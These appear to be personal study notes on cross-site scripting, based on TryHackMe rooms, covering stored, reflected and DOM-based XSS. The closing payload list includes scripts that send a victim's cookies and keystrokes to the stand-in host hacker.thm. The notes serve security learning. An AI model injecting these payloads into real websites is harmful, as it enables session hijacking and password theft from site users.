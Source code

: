 # Tools (with account created!!!!)
https://xsshunter.com/app

# Introduction
https://tryhackme.com/room/xss
https://tryhackme.com/room/xssgi

Take profit of unsanitized user input.
Can be JS, VBScript, CSS.

## Stored XSS
Malicious string is inside website's DB

## Reflected XSS
Malicious payload a victim will send to the website.
The attacker will need a way to make the victim send the payload.

Examples:
```
Popup's (<script>alert("Hello World")</script>)
Creates a Hello World message popup on a users browser.

Writing HTML (document.write)
Override the website's HTML to add your own (essentially defacing the entire page).

XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html)
You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html)
A mini local port scanner (more information on this is covered in the TryHackMe XSS room).
```

## DOM-Based XSS
DOM XSS (Document Object Model-based Cross-site Scripting) uses the HTML environment to execute malicious javascript. This type of attack commonly uses the <script></script> HTML tag.

For example, sending HTML directly in a search bar.

# Payloads
```
<script>alert(document.cookie)</script>
<script>alert("Hello World")</script>
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

For more:
XSS-Payloads.com (http://www.xss-payloads.com/) is a website that has XSS related Payloads, Tools, Documentation and more. You can download XSS payloads that take snapshots from a webcam or even get a more capable port and network scanner.
```
